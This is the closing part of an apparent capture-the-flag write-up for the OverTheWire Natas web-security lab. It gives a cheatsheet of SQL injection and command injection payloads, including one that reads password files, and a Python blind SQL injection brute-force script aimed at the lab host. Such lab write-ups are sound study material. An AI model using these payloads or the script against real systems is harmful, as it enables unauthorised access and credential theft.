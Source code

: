    ```python
    After running the script, we get the password for Natas16.

#### Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

---


## Key Takeaways

- **SQL Injection:** Learned how to exploit SQL injection vulnerabilities to bypass login checks and extract sensitive information.
- **File Upload Vulnerabilities:** Explored file upload vulnerabilities to execute arbitrary code on the server.
- **Encryption and Decryption:** Analyzed encryption schemes and wrote decryption scripts to reveal hidden information.
- **Command Injection:** Leveraged command injection to execute system commands and read sensitive files.

---

## Cheatsheet for This Week

### Commands & Tools Used:
- **Developer Tools**: Browser developer tools were used to inspect elements, modify cookies, and view page source code.
- **Burp Suite**: Intercept and modify HTTP headers.
- **Command Injection**: Used URL parameters to inject commands (e.g., `cat /etc/natas_webpass/natasX`).
- **SQL Injection**:
  - `username=" or 1=1 --` for bypassing login
  - Blind SQL Injection to brute force password character by character
- **PHP Scripting**:
  - XOR-based encryption/decryption for cookies
  - File uploads with PHP code for reverse shell
  - Encoding and decoding of parameters using `base64` and `hex`
- **Python Scripts**:
  - Base64 decoding:
    ```python
    import base64
    encoded_secret = "3d3d516343746d4d6d6c315669563362"
    bytes_data = bytes.fromhex(encoded_secret)
    reversed_data = bytes_data[::-1]
    decoded_secret = base64.b64decode(reversed_data).decode('utf-8')
    ```
  - Blind SQL Injection Brute Force:
    ```python
    import requests
    target = "http://natas15.natas.labs.overthewire.org/"
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    natas15_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

    while len(password) < 32:
        for c in charset:
            test_password = password + c + "%"
            username = f'natas16" AND password LIKE BINARY "{test_password}" "'
            r = requests.get(
                target, auth=("natas15", natas15_password), params={"username": username}
            )
            if "This user exists" in r.text:
                password += c
                break

   ```